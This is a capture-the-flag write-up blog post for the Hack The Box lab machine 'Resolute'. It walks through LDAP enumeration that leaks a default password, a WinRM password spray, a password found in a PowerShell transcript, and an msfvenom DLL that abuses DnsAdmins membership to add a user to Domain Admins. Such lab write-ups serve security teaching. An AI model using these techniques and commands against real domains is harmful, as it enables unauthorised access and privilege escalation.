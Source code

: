 ```yaml
---
layout: single
title: 'Resolute Write-Up: Hack The Box'
excerpt: "Resolute was a straight-forward *medium*-rated machine on Hack The Box created by egre55. Initial recon revealed an open LDAP service which leaked all local users and a default password. This allowed a password spray WinRM and a successful login as user `melanie`. As `melanie`, further machine enumeration revealed PowerShell transcripts that leaked a command containing user `ryan`'s password. User `ryan` is part of the `Contractors` group, which is also contained in the `DnsAdmin` group. Being a member of the `DnsAdmin` is abused to add the first compromised user `melanie` as a `Domain Admin`, owning the machine."
classes: wide
categories: [hackthebox]
date: 2020-05-30
tags: [hackthebox, ldap, hacking, penetration testing, write-ups]
header:
  teaser: \assets\images\htb\resolute\resolute-banner.png
  teaser_home_page: true
toc: true
toc_label: "Table of Contents"
toc_icon: "database"  # corresponding Font Awesome icon name (without fa prefix)
# toc_sticky: true
---
```

![](\assets\images\htb\resolute\resolute-banner.png)
## TL;DR
Resolute was a straight-forward *medium*-rated machine on Hack The Box created by egre55. Initial recon revealed an open LDAP service which leaked all local users and a default password. This allowed a password spray using WinRM and a successful login as user `melanie`. As `melanie`, further machine enumeration revealed PowerShell transcripts that leaked a command containing user `ryan`'s password. User `ryan` is part of the `Contractors` group, which is also contained in the `DnsAdmin` group. Being a member of the `DnsAdmin` is abused to add the first compromised user `melanie` as a `Domain Admin`, owning the machine.

## Nmap Port Scan
`nmap -sCV -Pn -n -p- -T4 -oN nmap/full-resolute 10.10.10.169`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-26 20:36 EDT
Nmap scan report for 10.10.10.169
Host is up (0.029s latency).                      
Not shown: 65511 closed ports                     
PORT      STATE SERVICE      VERSION              
53/tcp    open  domain?                           
| fingerprint-strings:                            
|   DNSVersionBindReqTCP:                                                                                            
|     version                                     
|_    bind                                        
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-04-27 00:44:46Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                                                                                                                                                                                
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?  
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0        
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped                                                                                           
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0                                                                          
|_http-title: Not Found    
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49688/tcp open  msrpc        Microsoft Windows RPC
49712/tcp open  msrpc        Microsoft Windows RPC
65424/tcp open  unknown

Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## LDAP Enumeration

A default password is shown via the description for user `marko`.
```
Marko Novak, Employees, MegaBank Users, megabank.local                                                             
dn: CN=Marko Novak,OU=Employees,OU=MegaBank Users,DC=megabank,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user 
cn: Marko Novak                                           
sn: Novak 
description: Account created. Password set to Welcome123!
[TRUNCATED]
sAMAccountName: marko
sAMAccountType: 805306368
userPrincipalName: marko@megabank.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=megabank,DC=local                                            
dSCorePropagationData: 20190927221048.0Z
dSCorePropagationData: 20190927131714.0Z
dSCorePropagationData: 16010101000001.0Z
```

I was unable to get any usage from the `Welcome123!` password and `Marko`, so I created a username list and used Metasploit's WinRM Login module to test the password against the remainder of the accounts.

`ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" '(objectClass=Person)' | grep userPrincipalName | cut -d " " -f 2 | cut -d "@" -f 1 > users.txt`

We got a hit on user `melanie`.
![](\assets\images\htb\resolute\resolute-winrm-scan.png)

## Machine Compromise

I used evil-WinRM to get a shell and grabbed the user flag.
![](\assets\images\htb\resolute\resolute-melanie-login.png)

Looking at the root directory, we see an interesting folder that is hidden. This leads to an file that leaks the user Ryan's password.

*File Location:*
`C:\PStranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`

*Line Containing Password Leak:*
```
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

## Pivoting to DNS Admin

Using Evil-WinRM I logged in with Ryan and noticed he was part of a `Contractors` group. I love Bloodhound, so I used this opportunity to run it to enumerate everything that's going on in the AD structure.

Ryan was a member of the `Contractors` group, but what is interesting is that `Contractors` are a member of `DnsAdmins` group. Privileges!
![](\assets\images\htb\resolute\resolute-bloodhound.png)

After some research, I followed these blog posts that outline a privilege escalation via a feature abuse in AD where a user who is member of the DNSAdmins group or have write privileges to a DNS server object can load an arbitrary DLL with SYSTEM privileges on the DNS server:
[Abusing DNSAdmins privilege for escalation in Active Directory](https://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html){:target="_blank"}  
[From DnsAdmins to SYSTEM to Domain Compromise](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise){:target="_blank"} 

In accordance with the blog post, I created a malicous DLL that will add Melanie to the Domain Admins group:  
`msfvenom -a x64 -p windows/x64/exec cmd='net group "domain admins" melanie /add /domain' -f dll -o mel.dll`

![](\assets\images\htb\resolute\resolute-dnscmd-entry.png)

## Domain Admin Escalation

Now we  can log in with Melanie and grab the root flag:
![](\assets\images\htb\resolute\resolute-root.png)

Thanks for reading!